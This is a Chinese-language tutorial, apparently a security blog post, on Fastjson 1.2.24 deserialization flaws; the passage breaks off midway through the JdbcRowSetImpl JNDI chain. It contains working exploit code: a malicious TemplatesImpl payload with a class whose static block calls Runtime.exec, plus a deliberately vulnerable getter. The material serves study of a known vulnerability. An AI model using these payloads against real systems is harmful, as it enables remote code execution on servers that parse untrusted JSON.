# java反序列化-Fastjson

# Fastjson基础

## fastjson简介

**Fastjson 是 Alibaba 开发的 Java 语言编写的高性能 JSON 库，用于将数据在 JSON 和 Java Object 之间互相转换。**

**提供两个主要接口来分别实现序列化和反序列化操作。**

**`JSON.toJSONString` 将 Java 对象转换为 json 对象，序列化的过程。**

**`JSON.parseObject/JSON.parse` 将 json 对象重新变回 Java 对象；反序列化的过程**

---

## fastjson代码演示

### 序列化代码

需要先导入fastjson的依赖，这里导入1.2.24版本，这是首先发现漏洞的版本

```
<dependency>  
 <groupId>com.alibaba</groupId>  
 <artifactId>fastjson</artifactId>  
 <version>1.2.24</version>  
</dependency>
```

然后通过代码演示如何使用 Fastjson 进行序列化和反序列化，以及特性

**首先需要定义一个javabean类，Student类**

**Student.java**

```
package org.mixbp;


public class Student {
    private String name;
    private int age;

    public Student() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }
}
```

然后是fastjson序列化的demo，调用 `JSON.toJsonString()` 来序列化 Student 对象 

**StudentSerialize.java**

```
package org.mixbp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class StudentSerialize {
    public static void main(String[] args) {
        Student student = new Student();
        student.setName("mixbp");
//      student.setAge(6);
        String jsonString = JSON.toJSONString(student, SerializerFeature.WriteClassName);
        System.out.println(jsonString);
    }
}
```

简单调试一下

在JSON.toJSONString处下断点



然后跟进到JSON这个类的toJSONString()方法内，，可以看到new 了一个 `SerializeWriter` 对象


可以看到 static 的变量，写着 “members of JSON”，这里注意`DEFAULT_TYPE_KEY` 为 “@type”



里面定义了一些初值，赋值给 out 变量，这个 out 变量后续作为 `JSONSerializer` 类构造的参数。



然后就是toString()方法显示输出

关键部分

```
String jsonString = JSON.toJSONString(student, SerializerFeature.WriteClassName);
```

第一个参数是 student，是一个对象

第二个参数是 `SerializerFeature.WriteClassName`，是 `JSON.toJSONString()` 中的一个设置属性值，设置之后在序列化的时候会多写入一个@type，即写上被序列化的类名

**type 可以指定反序列化的类，并且调用其 `getter`/`setter`/`is` 方法，这在之后的反序列化利用中很重要。**

**Fastjson 接受的 JSON 可以通过@type字段来指定该JSON应当还原成何种类型的对象**

`SerializerFeature.WriteClassName`参数设置

```
// 设置了SerializerFeature.WriteClassName
构造函数
setName
setAge
getAge
getName
{"@type":"org.example.Student","age":6,"name":"John"}
 
// 未设置SerializerFeature.WriteClassName
构造函数
setName
setAge
getAge
getName
{"age":6,"name":"John"}
```

---

### 反序列化代码

关键函数是`JSON.parseObject()`

**StudentUnserialize.java**

```
package org.mixbp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class StudentUnserialize {
    public static void main(String[] args) {
        String jsonString = "{\"@type\":\"org.mixbp.Student\",\"age\":6,\"name\":\"mixbp\"}";
        Student student = JSON.parseObject(jsonString, Student.class, Feature.SupportNonPublicField);
        System.out.println(student);
        System.out.println(student.getClass().getName());
    }
}

```

运行结果



---

## fastjson基础知识

### 反序列化时的 Feature.SupportNonPublicField 参数

先把Student类中的setter方法去掉

```
package org.mixbp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class StudentUnserialize {
    public static void main(String[] args) {
        String jsonString = "{\"@type\":\"org.mixbp.Student\",\"age\":6,\"name\":\"mixbp\"}";
        Student student = JSON.parseObject(jsonString, Student.class);
        System.out.println(student);
        System.out.println(student.getClass().getName());
        System.out.println(student.getName());
        System.out.println(student.getAge());
    }
}

```

在反序列化代码运行输出如下，发现我们并不能获取到 age”和name，因为它是私有属性的。



- **Fastjson 默认只处理 `public` 字段或带有 public getter/setter 的字段**

想让传给JSON.parseObject()进行反序列化的JSON内容指向的对象类中的私有变量成功还原出来

需要在调用JSON.parseObject()时加上Feature.SupportNonPublicField这个属性设置

---

### parseObject()的指定或不指定反序列化类型之间的差异

这里我没有指定反序列化类型

```
package org.mixbp;

import com.alibaba.fastjson.JSON;

public class StudentUnserialize2 {
    public static void main(String[] args) {
        String jsonString ="{\"@type\":\"Student\",\"age\":6," +
                "\"name\":\"Drunkbaby\",\"address\":\"china\",\"properties\":{}}";
        Object obj = JSON.parseObject(jsonString);
        // 或以下语句，输出结果一致
        //JSONObject obj = JSON.parseObject(jsonString);
        System.out.println(obj);
        System.out.println(obj.getClass().getName());
    }
}
```

查看输出，发现执行了setter和getter方法，但是没有反序列化为Student类，返回的是JSONObject



指定反序列化类型

```
package org.mixbp;

import com.alibaba.fastjson.JSON;

public class StudentUnserialize2 {
    public static void main(String[] args) {
        String jsonString ="{\"@type\":\"Student\",\"age\":6," +
                "\"name\":\"Drunkbaby\",\"address\":\"china\",\"properties\":{}}";
        Object obj = JSON.parseObject(jsonString,Student.class);
        // 或以下语句，输出结果一致
        //JSONObject obj = JSON.parseObject(jsonString);
        System.out.println(obj);
        System.out.println(obj.getClass().getName());
    }
}
```

加上指定反序列化得到的类型为Object.class或Student.class，可以看到成功反序列化，并且调用了set方法



---

### parse与parseObject区别

两者主要的区别就是`parseObject()`返回的是JSONObject而`parse()`返回的是实际类型的对象，当在没有对应类的定义的情况下，一般情况下都会使用`JSON.parseObject()`来获取数据。

> FastJson中的 `parse()` 和 `parseObject()` 方法都可以用来将JSON字符串反序列化成Java对象，`parseObject()` 本质上也是调用 `parse()` 进行反序列化的。但是 `parseObject()` 会额外的将Java对象转为 JSONObject对象，即 `JSON.toJSON()`。所以进行反序列化时的细节区别在于，`parse()` 会识别并调用目标类的 `setter` 方法及某些特定条件的 `getter` 方法，而 `parseObject()` 由于多执行了 `JSON.toJSON(obj)`，所以在处理过程中会调用反序列化目标类的所有 `setter` 和 `getter` 方法。

也就是说，我们用`parse()`反序列化会直接得到特定的类，而无需像`parseObject()`一样返回的是JSONObject类型的对象、还可能需要去设置第二个参数指定返回特定的类。

---

## fastjson 反序列化漏洞原理

fastjson 在反序列化的时候会去找我们在 `@type` 中规定的类是哪个类，然后在反序列化的时候会自动调用这些 setter 与 getter 方法的调用，**注意！并不是所有的 setter 和 getter 方法。**

**满足条件的setter：**

- **非静态函数**
- **返回类型为void或当前类**
- **参数个数为1个**

**满足条件的getter：**

- **非静态方法**
- **无参数**
- **返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger或AtomicLong**

---

### 反序列化出恶意类

**Fastjson使用`parseObject()`/`parse()`进行反序列化的时候可以指定类型。如果指定的类型太大，包含太多子类，就有利用空间了。例如，如果指定类型为Object或JSONObject，则可以反序列化出来任意类。例如代码写`Object o = JSON.parseObject(poc,Object.class)`就可以反序列化出Object类或其任意子类，而Object又是任意类的父类，所以就可以反序列化出所有类。**

---

### 触发反序列化得到的恶意类中的恶意函数

在某些情况下进行反序列化时会将反序列化得到的类的构造函数、`getter`方法、`setter`方法执行一遍，如果这三种方法中存在危险操作，则可能导致反序列化漏洞的存在。换句话说，就是攻击者传入要进行反序列化的类中的构造函数、`getter`方法、`setter`方法中要存在漏洞才能触发。

我们到`DefaultJSONParser.parseObject(Map object, Object fieldName)`中看下，JSON中以@type形式传入的类的时候，调用`deserializer.deserialize()`处理该类，并去调用这个类的`setter`和`getter`方法：

```
public final Object parseObject(final Map object, Object fieldName) {
    ...
    // JSON.DEFAULT_TYPE_KEY即@type
    if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
        ...
        ObjectDeserializer deserializer = config.getDeserializer(clazz);
        return deserializer.deserialze(this, clazz, fieldName);
```

过程比较复杂，这里就不追了

---

### PoC

一般的Fastjson反序列化漏洞的PoC写法如下，@type指定了反序列化得到的类

```
{
"@type":"xxx.xxx.xxx",
"xxx":"xxx",
...
}
```

关键是要找出一个特殊的在目标环境中已存在的类，满足如下两个条件：

1. 该类的构造函数、`setter`方法、`getter`方法中的某一个存在危险操作，比如造成命令执行；
2. 可以控制该漏洞函数的变量（一般就是该类的属性）；

---

### 漏洞Demo

当反序列化指定的类型是Object.class，即代码为`Object obj = JSON.parseObject(jsonstring, Object.class, Feature.SupportNonPublicField);`时，反序列化得到的类的构造函数、所有属性的`setter`方法、properties私有属性的`getter`方法都会被调用，因此我们这里直接做最简单的修改，将Student类中会被调用的`getter`方法添加漏洞代码，这里修改`getProperties()`

```
import java.util.Properties;  
  
public class Student {  
    private String name;  
 private int age;  
 private String address;  
 private Properties properties;  
  
 public Student() {  
        System.out.println("构造函数");  
 }  
  
    public String getName() {  
        System.out.println("getName");  
 return name;  
 }  
  
    public void setName(String name) {  
        System.out.println("setName");  
 this.name = name;  
 }  
  
    public int getAge() {  
        System.out.println("getAge");  
 return age;  
 }  
  
//    public void setAge(int age) {  
//        System.out.println("setAge");  
//        this.age = age;  
//    }  
  
 public String getAddress() {  
        System.out.println("getAddress");  
 return address;  
 }  
  
    public Properties getProperties() throws Exception{  
        System.out.println("getProperties");  
 Runtime.getRuntime().exec("calc");  
 return properties;  
 }  
}
```

**FastjsonEasyPoC.java**

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.JSONObject;  
import com.alibaba.fastjson.parser.Feature;  
  
public class FastjsonEasyPoC {  
    public static void main(String[] args){  
        String jsonString ="{\"@type\":\"Student\",\"age\":6,\"name\":\"Drunkbaby\",\"address\":\"china\",\"properties\":{}}";  
  
 Object obj = JSON.parseObject(jsonString, Object.class);  
 System.out.println(obj);  
 System.out.println(obj.getClass().getName());  
 }  
}
```

前面的Demo中反序列化的类是一个Object类，该类是任意类的父类，其子类Student存在Fastjson反序列化漏洞，当@type指向Student类是反序列化就会触发漏洞。

对于另一种反序列化指定类的情景，是该指定类本身就存在漏洞，比如我们将上述Demo中反序列化那行代码改成直接反序列化得到Student类而非Object类，这样就是另一个触发也是最直接的触发场景：

```
Student obj = JSON.parseObject(jsonstring, Student.class, Feature.SupportNonPublicField);
```

---

## 总结

1. 反序列化点就是`JSON.parse`和`JSON.parseObject`方法
2. 然后就是如果是`JSON.parseObject`方法，利用时传参必须带上 class 的参数，否则只会返回`JSONObject`，不会反序列化恶意类对象
3. 然后就是最好带上这个传参`Feature.SupportNonPublicField`，带上这个传参才能给私有属性赋值
4. PoC 是通过 String 传进去的，要以 `@type` 开头
5. 漏洞的成因就是反序列化时自动调用了`getter`和`setter`方法

---

# Fastjson-1.2.24版本漏洞分析

环境配置

- jdk8u65
- Maven 
- 1.2.22 <= Fastjson <= 1.2.24

maven依赖，pom.xml

```
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>4.0.9</version>
</dependency>
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.5</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>commons-codec</groupId>
    <artifactId>commons-codec</artifactId>
    <version>1.12</version>
</dependency>
<dependency>
	<groupId>commons-collections</groupId>
	<artifactId>commons-collections</artifactId>
	<version>3.2.1</version>
</dependency>
```

然后这里主要是两条链子

 一条是TemplatesImpl 的链子，另一条JdbcRowSetImpl 的链子。

---

## TemplatesImpl 的利用链

### 链子分析

#### 首先要找到能够命令执行的类。

这里直接用TemplatesImpl链

这里直接把TemplatesImpl链的调用链贴出来

```
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->

TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()

-> TransletClassLoader#defineClass()
```

TemplatesImpl链的漏洞点在于调用了`newInstance`方法，`newInstance()` 会执行恶意类的**构造函数**或**静态初始化块**，最终导致代码执行

可以看到漏洞点的地方实际上是一个 `getter` 方法，`getTransletInstance`



所以TemplatesImpl链符合fastjson漏洞利用条件

---

#### 解决getTransletInstance无法调用问题

首先我们看看fastjson的getter和setter的调用条件

满足条件的setter：

- 非静态函数
- 返回类型为void或当前类
- 参数个数为1个

满足条件的getter：

- 非静态方法
- 无参数
- **返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger或AtomicLong**

这里我们想调用getTransletInstance是没办法的，因为不满足上述条件，这个方法返回的是一个抽象类

---

所以我们往前面追，追到newTransformer()，然后又去找谁调用了newTransformer**，找到getOutputProperties()**

**这个方法调用了newTransformer()，并且这个方法返回值是 Properties 即继承自 Map 类型。满足getter方法的返回值，能够利用**

我们这里把`outputProperties` 变量的值赋值为空即可

payload差不多是这样

```
final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

final String evilClassPath = "E:\\JavaClass\\TemplatesBytes.class";

"

{
	
 \"@type\":\"" + NASTY_CLASS + "\",
 \"_bytecodes\":[\""+evilCode+"\"],
 '_name':'Drunkbaby',
 '_tfactory':{ },
 \"_outputProperties\":{ },

";
```

---

### EXP构造

在反序列化的时候的参数需要加上 `Object.class` 与 `Feature.SupportNonPublicField`

因为`bytecodes`、`_name`、`_outputProperties`这些变量是私有的。默认情况下，Fastjson **不会反序列化私有字段**

然后我们再构造恶意类

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Calc extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

编译成Calc.class文件之后放到指定的目录下

---

#### 完整EXP

```
package org.mixbp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.codec.binary.Base64;
import org.apache.commons.io.IOUtils;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

// TemplatesImpl 链子的 EXPpublic
public class TemplatesImplPoc {
public static String readClass(String cls){
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    try {
        IOUtils.copy(new FileInputStream(new File(cls)), bos);
    } catch (IOException e) {
        e.printStackTrace();
    }
    return Base64.encodeBase64String(bos.toByteArray());
}

        public static void main(String args[]){
            try {
                ParserConfig config = new ParserConfig();
                final String fileSeparator = System.getProperty("file.separator");
                final String evilClassPath = "E:\\tmp\\classes\\Calc.class";
                String evilCode = readClass(evilClassPath);
                final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
                String text1 = "{\"@type\":\"" + NASTY_CLASS +
                        "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'mixbp','_tfactory':{ },\"_outputProperties\":{ },";
                System.out.println(text1);

                Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
                //Object obj = JSON.parse(text1, Feature.SupportNonPublicField);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
}
```

成功弹出计算器

---

## JdbcRowSetImpl 的利用链

基于 JdbcRowSetImpl 的利用链主要有两种利用方式，即 JNDI + RMI 和 JNDI + LDAP，都是属于基于 Bean Property 类型的 JNDI 的利用方式。

平常的CTF基本利用都是这个方式，因为动态加载字节码更加灵活。

---

### JNDI+RMI

#### 链子分析

这条链子名为JdbcRowSetImpl，但是其实跟jdbc没什么关系，主要还是前面学过的**JNDI**的**Reference**引用攻击。

在`JdbcRowSetImpl `类里面有一个 `setDataSourceName()` 方法，这个方法是这条链子的入口，跟进这个方法



这里的DateSourceName是数据库源，这里会调用父类的setDataSourceName方法，跟进



可以看到这里设置了数据库源，我们可以把这里的数据库源设置为我们的RMI地址。

然后是JNDI注入的触发点，跟到这个方法`setAutoCommit`



conn连接为空时会调用connect()，跟进到这个函数

**connect()方法**

